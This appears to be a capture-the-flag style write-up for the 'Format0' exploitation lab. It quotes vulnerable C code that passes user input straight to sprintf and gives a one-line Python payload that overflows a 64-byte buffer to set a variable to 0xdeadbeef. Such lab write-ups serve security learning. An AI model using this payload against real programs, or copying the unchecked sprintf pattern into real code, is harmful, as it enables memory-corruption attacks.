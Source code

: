 <h2>Goal</h2>

Looking at the source code for Format0, this is very similar to a buffer overflow.  The goal is to write over the variable `target` with `0xdeadbeef`, by overflowing the `buffer` variable.  The only difference between stack1 and this level is that the overwriting of `target` occurs in the `sprintf` function instead of a `strcpy`. This function is part of a special type of ANSI C function.  More in-depth explanation to format string exploits check out the following paper: [Exploiting Format String Vulnerabilities](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)

```c
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
```



<h2>Solution</h2>

The solution for this challenge is as mentioned before, similar to the stack1 challenge. Fill the buffer with 64 bytes, then put in the required value `0xdeadbeef`. Keep in mind this challenge requires passing an argument, it does not take standard input after execution.

```bash 
./format0 `python -c 'import struct ; print"A"*64+struct.pack("I", 0xdeadbeef)'`
```
